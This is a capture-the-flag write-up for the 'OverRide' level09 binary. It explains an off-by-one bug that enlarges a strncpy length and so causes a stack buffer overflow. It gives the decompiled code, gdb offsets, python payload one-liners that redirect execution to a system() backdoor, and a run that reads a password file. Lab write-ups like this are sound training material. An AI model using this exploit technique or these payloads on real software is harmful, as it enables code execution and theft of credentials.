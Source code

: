 ## Step 1: Static & Dynamic Analysis

```c
0000088c    int64_t secret_backdoor()
0000088c    {
0000088c        void var_88;
000008ad        fgets(&var_88, 0x80, *(uint64_t*)stdin);
000008bf        return system(&var_88);
0000088c    }

000008c0    int64_t handle_msg()
000008c0    {
000008c0        int64_t s;
000008d8        __builtin_memset(&s, 0, 40);
000008ff        int32_t var_14 = 140;
00000910        void buffer;
00000910        set_username(&buffer);
0000091f        set_msg(&buffer);
00000931        return puts(">: Msg sent!");
000008c0    }

00000932    char* set_msg(char* buffer)
00000932    {
00000932        void message_input;
0000095e        __builtin_memset(&message_input, 0, 1024);
00000968        puts(">: Msg @Unix-Dude");
0000097c        printf(">>: ");
0000099d        fgets(&message_input, 1024, *(uint64_t*)stdin);
000009cc        return strncpy(buffer, &message_input, (int64_t)*(uint32_t*)(buffer + 180));
00000932    }

000009cd    int64_t set_username(int64_t buffer)
000009cd    {
000009cd        void username_input;
000009f9        __builtin_memset(&username_input, 0, 128);
00000a03        puts(">: Enter your username");
00000a17        printf(">>: ");
00000a38        fgets(&username_input, 128, *(uint64_t*)stdin);
00000a38        
00000a6e        for (int32_t i = 0; i <= 40; i += 1)
00000a6e        {
00000a6e            if (!*(uint8_t*)(&username_input + (int64_t)i))
00000a7f                break;
00000a7f            
00000a5f            *(uint8_t*)(buffer + (int64_t)i + 140) = *(uint8_t*)(&username_input + (int64_t)i);
00000a6e        }
00000a6e        
00000aa7        return printf(">: Welcome, %s", buffer + 140);
000009cd    }

00000aa8    int32_t main(int32_t argc, char** argv, char** envp)
00000aa8    {
00000aa8        puts("--------------------------------…");
00000ab8        handle_msg();
00000ac3        return 0;
00000aa8    }
```
### Explanation

This binary takes two inputs using `fgets()`, a username and a message. The `handle_msg()` function manages these inputs with a `180 bytes` buffer on the stack. It calls `set_username()` and `set_msg()` in sequence, both modifying this buffer.

In `set_username()`, a `128 bytes` buffer is created, and the first `41 bytes` are copied into the main buffer at offset `140`.

```c
for (int32_t i = 0; i <= 40; i += 1)
```

In `set_msg()`, a `1024 bytes` buffer is created for the message. The function then copies a number of bytes determined by the value stored at `buffer + 180`, which is initially set to `140`.

The vulnerability is in `set_username()`. Since `41` bytes are copied, it allows overwriting the value at `buffer + 180`, originally `140`. By modifying this value, the size limit for copying in `set_msg()` can be increased, leading to a `buffer overflow`.

```c
strncpy(buffer, &message_input, (int64_t)*(uint32_t*)(buffer + 180))
```

To exploit this, we need to determine the buffer’s base address and the saved return address.

```
0x7fffffffea10: 0xffffeae0      0x00007fff      0x55554924      0x00005555
0x7fffffffea20: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffea30: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffea40: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffea50: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffea60: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffea70: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffea80: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffea90: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffeaa0: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffeab0: 0x41414141      0x41414141      0x41414141      0x41414141 
```

Setting a breakpoint after filling the buffer and examining memory reveals that the controlled buffer starts at `0x7fffffffea20`.

```
(gdb) i f
Stack level 0, frame at 0x7fffffffeaf0:
 rip = 0x555555554930 in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffeb00
 Arglist at 0x7fffffffeae0, args: 
 Locals at 0x7fffffffeae0, Previous frame's sp is 0x7fffffffeaf0
 Saved registers:
  rbp at 0x7fffffffeae0, rip at 0x7fffffffeae8
(gdb) x/2wx 0x7fffffffeae8
0x7fffffffeae8: 0x55554abd      0x00005555
```

We can see that the return address is stored at `0x7fffffffeae8`.

```python
>>> 0x7fffffffeae8 - 0x7fffffffea20
200
```

The difference between these addresses shows that the return address is `200 bytes` from the buffer’s base address.

```bash
python -c 'print(("A" * 40) + "\xd0")' > /tmp/exploit
```

This input fills the first `40 bytes` and overwrites the stored message length with `208`.

```python
python -c 'print(("A" * 200) + "\x00\x00\x55\x55\x55\x55\x48\x8c"[::-1])' >> /tmp/exploit
```

For the second input, we overflow into the saved return address and redirect execution to `secret_backdoor()`.

## Step 2: Exploiting the Binary

```bash
level09@OverRide:~$ cat /tmp/exploit - | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
